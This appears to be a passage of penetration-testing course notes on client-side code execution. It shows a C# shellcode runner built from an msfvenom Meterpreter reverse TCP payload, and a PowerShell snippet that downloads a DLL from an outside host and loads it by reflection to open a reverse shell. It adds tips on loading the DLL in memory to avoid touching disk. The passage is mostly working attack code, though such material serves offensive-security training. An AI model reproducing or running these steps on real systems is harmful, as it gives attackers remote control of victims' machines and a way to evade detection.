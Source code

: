 ```csharp


    public static void runner()

    {

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.110 LPORT=4444 EXITFUNC=thread -f csharp

            byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,                           ...                                  0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
                                                        0xd5};


            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

        }

    }

}
```
- interact with powershell to get meterpreter staged payload
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.110/ClassLibrary1.dll', '<insert path>\ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("<insert path>\ClassLibrary1.dll")

PS> $class = $assem.GetType("ClassLibrary1.Class1")

$method = $class.GetMethod("runner")

$method.Invoke(0, $null)
```
- Executing this PowerShell results in a reverse Meterpreter shell, but it will download the assembly to disk before loading it. We can subvert this by instead using the _Load_[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-1) method, which accepts a _Byte_ array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the _DownloadData_[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-2) method of the _Net.WebClient_ class to download the DLL as a byte array.
